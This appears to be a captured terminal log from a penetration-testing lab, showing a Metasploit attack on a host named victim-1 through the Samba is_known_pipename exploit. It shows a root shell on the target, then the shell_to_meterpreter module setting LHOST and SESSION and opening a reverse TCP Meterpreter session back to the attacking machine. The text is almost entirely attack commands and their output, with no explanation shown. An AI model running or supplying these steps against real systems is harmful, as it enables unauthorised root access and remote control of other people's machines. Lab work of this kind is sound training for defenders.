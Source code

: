 ```
ls
pwd
/tmp
/bin/bash -i
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
root@victim-1:/tmp# ^Z
Background session 1? [y/N]  y
```

```
msf5 exploit(linux/samba/is_known_pipename) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.195.144.2:45931 -> 192.195.144.3:445 (192.195.144.3)
```

```
msf5 exploit(linux/samba/is_known_pipename) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   1  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


msf5 exploit(linux/samba/is_known_pipename) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > set LHOST eth1
LHOST => 192.195.144.2
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

```
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.195.144.2:4433 
[*] Sending stage (985320 bytes) to 192.195.144.3
[*] Meterpreter session 2 opened (192.195.144.2:4433 -> 192.195.144.3:35964) at 2023-02-09 14:34:31 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions

```